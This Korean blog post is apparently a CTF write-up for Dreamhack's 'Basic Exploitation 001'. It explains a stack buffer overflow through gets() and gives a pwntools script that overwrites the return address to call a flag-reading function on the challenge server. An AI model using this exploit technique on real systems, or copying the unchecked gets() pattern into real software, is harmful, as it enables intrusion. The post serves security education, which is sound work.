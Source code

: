 ```yaml
---
title: "[pwn]Basic Exploitation 001"
excerpt: "Dreamhack Basic Exploitation 001"
category: CTF
tags: [pwnable]
toc: true
toc_label: "Table of Contents"
toc_sticky: true
---
```

1. 환경 확인  
**file** 명령어로 i386, LE 환경인것을 확인한다.

2. code 확인  
~~~
void read_flag(){
    system("cat /flag");
}
int main(int argc, char *argv[]){
    char buf[0x80];
    initialize();
    gets(buf); // gcc에서도 경고하는 gets
    return 0;
}
~~~
코드에서 알수 있듯이 버퍼의 크기는 0x80, **gets()** 함수는 입력의 크기를 확인하지 않고 받는다. 따라서 Stack Buffer Overflow를 이용해서 exploit할수 있다. 심지어 친절하게 **read_flag()** 함수를 만들어 두어서 shellcode를 사용하지 않아도 된다.  

3. payload 작성  
메모리를 확인하면 $esp에 0x80 크기의 버퍼를 두고 4byte의 SFP, 그뒤에 main 함수의 ret 주소가 있다.  
따라서 0x84 크기의 dummy와 **read_flag()** 의 주소 0x080485B9를 **p32()** 를 통해 LE로 넣는다.  

4. script 작성

~~~
from pwn import *

p=remote('host1.dreamhack.games',22850)
payload=b'A'\*0x84+p32(0x080485B9)
p.sendline(payload)
p.interactive()
~~~

<img width="614" alt="Script exec" src="https://user-images.githubusercontent.com/45323902/154213519-80a0e1e2-1867-4239-a9d0-67903df5a605.png">

